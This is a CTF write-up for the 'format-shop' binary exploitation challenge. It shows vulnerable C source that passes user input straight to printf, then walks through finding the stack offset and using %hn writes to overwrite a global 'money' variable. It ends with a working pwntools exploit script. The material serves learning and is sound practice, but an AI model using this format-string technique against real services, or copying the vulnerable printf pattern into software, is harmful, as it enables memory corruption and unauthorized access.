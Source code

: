 ```yaml
---
title: Binary exploitaion :format-string vulnerability
date: '2022-12-30'
tags: ['pwn', 'CTF']
draft: false
summary: 'writeup for a binary exploitaion challenge that was issued in the jingle bell CTF (format-string vulnerability).'
authors: ['oussema zouch']
---
```

### format-shop challenge from the jingle bell CTF .

given the source code:

```c
#include <stdio.h>

unsigned int money = 1500;

int menu(){
    puts("1. Go shopping!");
    puts("2. Give feedback.");
    puts("3. Bye");

    int tmp;
    printf("> ");
    scanf("%d", &tmp);
    getchar();
    return tmp;
}

void setup(){
    setvbuf(stderr, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}

void flag(){
	char c;
    FILE *fp=fopen("./flag.txt","r");
    if(fp){
        while( (c=getc(fp)) != EOF)
            putchar(c);
        fclose(fp);
    }else{
        puts("Flag file not found!");
    }
}

void shop(){
    unsigned int prices[5] = {69, 12, 322, 554, 0x1337};
    char* items[5] = {"Ice", "Fish", "Icecream", "Sugar", "flag"};

    for(int i=0; i<5; i++){
        printf("%d. %s:%d coins.\n", i+1, items[i], prices[i]);
    }

    printf("You have %u coins\n", money);
    int idx;
    printf("Item> ");
    scanf("%d", &idx);
    getchar();

    if(idx < 1 || idx > 5){
        puts("Invalid index.");
        return;
    }

    idx--; // To use as index
    if(prices[idx] > money){
        puts("Not enough money");
        return;
    }

    if(idx == 4){
        flag();
    }
    money -= prices[idx];
    puts("Item bought!");
}

void feedback(){
    char feedbackContent[250];
    printf("> ");
    int c = read(0, feedbackContent, 249);

    if(c == -1) return;
    feedbackContent[c] = '\0';
    
    printf(feedbackContent);
    puts("Thanks for the feedback!");
}

int main(){
    setup();

    int choice;
    do{
        choice = menu();
        switch (choice)
        {
        case 1:
            shop();
            break;
        case 2:
            feedback();
            break;
        default:
            break;
        }
    }while(choice != 3);

    return 0;
}
```
there is a function called flag() in the source code that we can reach if we buy the the flag item which costs 0x1337 (4919) but we only have 1500 .
#### first let’s run some basic file checks .
![file check](/static/images/format1.png)

we can see that The No eXecute or the NX bit is enabled which means that we can’t jump to custom shellcode after being injected in the stack.

— — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — 



![](/static/images/format2.png)

hmmmm!!!that’s a **format-string vulnerability** and 6 is the first formatter’s offset we control since the hex representation of **‘%p-’ is 0x70252d**.

we can use this vulnerability and try to modify our money variable to make it higher than 4919.

**money_add**=0x0000000000404060

we will use the %nformat specifier which takes in a pointer (memory address) and writes there the number of characters written so far.

our payload will look like :payload=p64(**money_add**)+b’a’*5000+ b’%6$n’. so we expect that with this payload we will write 5000+4 bytes to money_add.

***BUT IT DOESN’T WORK!!!!!!!!!!!!!!!***

The reason it doesn’t work is that *printf* stops at null bytes, and the money-address contains null bytes. We have to put the format specifier first.

there is also another problem that will prevent this payload from working is that we can’t write 5004 bytes into memory .

we will try to write in the higher bytes of our address. there is a way to do this with %hn format specifier.

# CONSTRUCTING THE PAYLOAD

**_payload=b’a’\*16+b’%9$hn|||’+p64(money_add+2)_**

let’ s break and take a look at **money** in gdb :

![](/static/images/format3.png)
money is equal to 0x00000000001005dc (= 1050076)

## final exploit:

```python
from pwn import * 
import pwnlib.util.packing as pack
elf=ELF('main')
#p=elf.process()
p=remote('REMOTE_server',PORT)
money_add=0x0000000000404060
p.sendline(b'2')
payload=b'a'*16
payload+=b'%9$hn|||'
payload+=p64(money_add+2)
payload+=b'%10$hn||'
payload+=p64(money_add)
p.sendline(payload)
p.recvuntil(b'3. Bye')
p.sendline(b'2')
p.interactive()
```

Special Thanks to **Securinets INSAT** for bringing to life this challenging CTF .i really enjoyed learning new stuff related mainly to the binary exploitation category.
